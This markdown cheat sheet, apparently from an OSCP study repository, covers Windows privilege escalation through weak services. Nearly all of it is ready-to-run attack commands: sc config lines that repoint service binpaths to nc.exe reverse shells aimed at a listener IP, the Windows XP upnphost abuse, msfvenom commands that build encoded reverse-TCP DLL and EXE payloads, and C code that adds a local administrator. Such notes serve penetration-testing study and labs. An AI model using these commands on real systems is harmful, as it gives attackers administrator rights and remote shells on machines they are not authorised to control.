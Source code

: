 # Weak Services

## Abuse service via BinPath

Search for a services which are running under priviliaged account, then use the following command with accesschk.exe to verify if our current user has permission to modify its settings:

```
C:\> accesschk.exe -wuvc myservice
```

Look for the “SERVICE_CHANGE_CONFIG” in the response. Then use the following command to execute net user instend of service bin:

```
C:\> sc config upnphost binpath= "C:\Inetpub\wwwroot\nc.exe 192.168.10.11 1234 -e C:\WINDOWS\System32\cmd.exe"
```

## Abuse service via Unquoted Paths

For more detailed technique: https://github.com/RootInj3c/OSCP-PwK/blob/master/Windows/Unquoted_Paths.md


## Abuse Upnp service (only for Windows XP SP1)

In Windows XP SP1 the upnp service is vulnerable to misconfigured permissions allow to esclate to Administrator. Run the following commands:

```
C:/> sc config upnphost binpath= "C:\Inetpub\wwwroot\nc.exe YOUR_IP 1234 -e C:\WINDOWS\System32\cmd.exe"
C:/> sc config upnphost obj= ".\LocalSystem" password= ""
C:/> sc config upnphost depend= ""
C:/> sc qc upnphost
```

Restrat the service by reboot the machine to get Administrator shell.

## DLL Hijacking

If we found a program which try to load not found DLL libary we could use the following command to create our malicous DLL and put it instend:

```
root@kali:~/# msfvenom -p windows/shell/reverse_tcp LHOST=192.168.10.11 LPORT=443 -e x86/shikata_ga_nai -b ‘\x00’ -i 3 -f dll > malicous_dll.exe
```

*NOTE*: To detect vulnerable programm you'll need to use Process Monitor. Download from here: https://docs.microsoft.com/en-us/sysinternals/downloads/process-explorer?redirectedfrom=MSDN

## Appendix - Creating malicous services

### Manully using C

Using the following code:

```
#include <stdlib.h>
int main ()
{
    int i;
    i = system("net localgroup administrators theusername /add");
    return 0;
}
```

Compile it using Kali:

```
root@kali:~/# nano adduser.c
root@kali:~/# i686-w64-mingw32-gcc adduser.c -lws2_32 -o exp.exe
```

### Using Metasploit

Execute the following command to get pre-compiled malicous binary:

```
root@kali:~/# msfvenom -p windows/shell/reverse_tcp LHOST=192.168.10.11 LPORT=443 -e x86/shikata_ga_nai -b ‘\x00’ -i 3 -f exe > example.exe
```



